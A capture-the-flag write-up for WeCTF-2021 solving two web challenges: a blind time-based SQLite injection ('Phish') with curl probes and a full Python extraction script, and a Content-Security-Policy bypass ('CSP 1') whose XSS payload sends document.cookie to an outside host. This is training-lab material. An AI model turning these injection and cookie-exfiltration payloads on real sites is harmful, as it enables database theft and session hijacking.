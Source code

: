 # WeCTF-2021

<h1>Phish</h1>

From the start testing - `curl http://phish.sf.ctf.so/add --data"username=test&password=test2'` will returns an SQL error which means it's vulnerible to SQLi.

Testing `curl http://phish.sf.ctf.so/add --data "username=' UNION SELECT 1,2 #&password=test2"` returns `unrecognized token: "#"`

The database is not MySQL so let's run an SQL query to try to find what DB it is.

With MySQL the page should load in 5 seconds.. `' UNION SELECT 1,IF(LENGTH(password))>0,SLEEP(5),'true') FROM user` -- Instead it returns `no such function: IF`

This error is unique to SQLite. So now we know we need to convert to a SQLite query.

This query should will load in 4-5 seconds if password length is > 0. `curl http://phish.sf.ctf.so/add --data "username=shou&password=', '') UNION SELECT 1,CASE WHEN LENGTH(password)>0 THEN randomblob(500000000) END FROM user WHERE username = 'shou'--"`

It's a successful query and loads in  ~4 seconds. So I wrote a program (included below) to extract all 64 characters of the flag. 

```
import requests

FLAG = []
INJECTION_STRING = "', '') UNION SELECT 1,CASE WHEN unicode(substr(password, {}, {})){}{} THEN randomblob(500000000) END FROM user WHERE username = 'shou'--"

def guess_exact(offset, starting_ascii):
    global FLAG
    global INJECTION_STRING
    for current_ascii in range(starting_ascii-10, starting_ascii):
        print(f'Testing {chr(current_ascii)}')
        POST_DATA = {"password": INJECTION_STRING.format(offset,offset,'=',current_ascii), "username": "shou"}
        load_time = requests.post("http://phish.sf.ctf.so/add", data=POST_DATA).elapsed.total_seconds()
        print(f'Load time: {load_time}')
        if(load_time > 3):
            FLAG.insert(offset, chr(current_ascii))
            break
            
def guess_letter_range(offset):
        global INJECTION_STRING
        for current_ascii in range(30,131):
            if current_ascii % 10 == 0:
                POST_DATA = {"password": INJECTION_STRING.format(offset,offset,'<',current_ascii), "username": "shou"}
                print(f'Testing letters between {chr(current_ascii-10)}-{chr(current_ascii)}')
                load_time = requests.post("http://phish.sf.ctf.so/add", data=POST_DATA).elapsed.total_seconds()
                print(f'Load time: {load_time}')
                if load_time > 3:
                    print(f'Searching exact letter between {chr(current_ascii-10)}-{chr(current_ascii)}')
                    guess_exact(offset, current_ascii)
                    break

for offset in range(1, 64): # 64 is the size of the flag - based from manual testing 
    guess_letter_range(offset)
    print("".join(FLAG))
```

FLAG: we{e0df7105-edcd-4dc6-8349-f3bef83643a9@h0P3_u_didnt_u3e_sq1m4P}

<h1>CSP 1</h1>
Looking into code of app.py we see that filter_url() adds all image urls to img-src policy.

```
def filter_url(urls):
    domain_list = []
    for url in urls:
        domain = urllib.parse.urlparse(url).scheme + "://" + urllib.parse.urlparse(url).netloc
        if domain:
            domain_list.append(domain)
    return " ".join(domain_list)
		
@app.route('/display/<token>')
def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp
```

We just need to inject script-src policty that allows us to execute.

Payload:


```<img src="https://*; script-src 'unsafe-inline'" onerror="var img = new Image(); img.src = 'https://intercept.xxx?b='+document.cookie; document.body.appendChild(img);">```
